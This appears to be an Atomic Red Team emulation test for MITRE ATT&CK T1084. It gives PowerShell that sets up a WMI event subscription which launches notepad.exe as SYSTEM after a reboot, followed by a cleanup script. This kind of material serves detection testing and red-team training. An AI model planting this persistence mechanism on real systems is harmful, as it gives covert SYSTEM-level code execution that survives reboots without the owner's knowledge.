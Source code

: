 ## Windows Management Instrumentation Event Subscription

MITRE ATT&CK Technique: [T1084](https://attack.mitre.org/wiki/Technique/T1084)

### Persistence

Example:
```powershell
#Run from an administrator powershell window
#Code references
#https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af
#https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-Example';
                CommandLineTemplate="$($Env:SystemRoot)\System32\notepad.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

After running, reboot the victim machine. After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.


Cleanup:
```powershell
#Run from an administrator powershell window
#Code references
#https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af
#https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding"

$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```

#### References

https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af
https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545
